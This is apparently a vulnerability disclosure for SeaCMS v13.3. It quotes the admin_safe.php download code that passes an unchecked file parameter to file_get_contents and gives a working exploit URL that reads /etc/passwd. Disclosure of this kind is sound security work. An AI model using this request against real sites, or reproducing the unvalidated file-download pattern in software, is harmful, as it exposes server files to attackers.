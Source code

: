 ## Arbitrary File Read  in admin_safe.php

### Introduction

SeaCMS v13.3 is vulnerable to an arbitrary file read vulnerability. This vulnerability is located in the utility file `admin_safe.php`, where insufficient parameter validation allows attackers to read arbitrary files.

SeaCMS official website: [SeaCMS - Open Source Free PHP Movie System, Movie CMS, Video CMS, Film CMS, SEACMS](https://www.seacms.com/)

Click to download
![](./public/1.png)

You can see the latest version v13.3
![](./public/2.png)

### Vulnerability Analysis

The vulnerability exists in the `admin_safe.php` file, where the `file_get_contents` function is used without proper restrictions on the input parameters, leading to arbitrary file read.

The key code is as follows:
```php
if($action=="download" && isset($_GET['file']) && trim($_GET['file'])!="")  
{  
 $file = $_GET['file'];  
 ob_clean();  
 if (@file_exists($file)) {  
  header("Content-type: application/octet-stream");  
     header("Content-Disposition: filename=\"".basename($file)."\"");  
  echo file_get_contents($file);  
 }  
 exit();  
}
```

### Exploitation

By accessing the following URL with the specified parameters, an attacker can read arbitrary files, such as `/etc/passwd`:

```r
ywmba6/admin_safe.php?action=download&file=/etc/passwd
```

As shown in the image below, the contents of `/etc/passwd` are successfully read:

![](./public/9.png)